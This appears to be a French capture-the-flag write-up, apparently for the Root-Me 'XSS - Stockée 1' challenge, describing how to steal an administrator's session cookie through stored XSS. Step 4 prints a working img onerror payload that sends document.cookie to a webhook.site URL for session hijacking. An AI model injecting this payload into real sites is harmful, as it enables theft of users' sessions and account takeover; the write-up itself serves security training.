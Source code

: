 ```yaml
---
title: 'XSS - Stockée 1'
description: "Exploitation d'une vulnérabilité XSS stockée pour voler des cookies"
pubDate: 'Jul 1 2025'
heroImage: '/src/assets/root_me/rootme10-0.png'
---
```


## 9. XSS - Stockée 1

**Objectif :** Voler le cookie de session de l'administrateur et l'utiliser pour valider l'épreuve  
**Méthode :** Injection XSS stockée avec exfiltration de cookies  
**Outils utilisés :** Webhook.site / Injection de code / JS  
**Temps :** 25 minutes  


### Solution

Exploitation d'une vulnérabilité XSS stockée pour voler les cookies d'un administrateur.

![Challenge JavaScript Native Code](/src/assets/root_me/rootme10-0.png)

**Étapes :**
1. Tester l'injection de code avec `alert('XSS')` dans le champ description
2. Confirmer que l'injection fonctionne
3. Créer un webhook sur webhook.site pour capturer les données
4. Injecter le payload XSS :
   ```html
   <img src="x" onerror="new Image().src='https://webhook.site/602ea2d1-dbf7-4c77-a784-8c8381fb7ae6?cookie='+document.cookie">
   ```
5. Attendre que l'administrateur visite la page
6. Récupérer le cookie sur le webhook
7. Utiliser le cookie pour s'authentifier comme administrateur

![Challenge JavaScript Native Code](/src/assets/root_me/rootme10-1.png)

![Challenge JavaScript Native Code](/src/assets/root_me/rootme10-2.png)
![Challenge JavaScript Native Code](/src/assets/root_me/rootme10-3.png)
![Challenge JavaScript Native Code](/src/assets/root_me/rootme10-5.png)
![Challenge JavaScript Native Code](/src/assets/root_me/rootme10-6.png)
![Challenge JavaScript Native Code](/src/assets/root_me/rootme10-4.png)
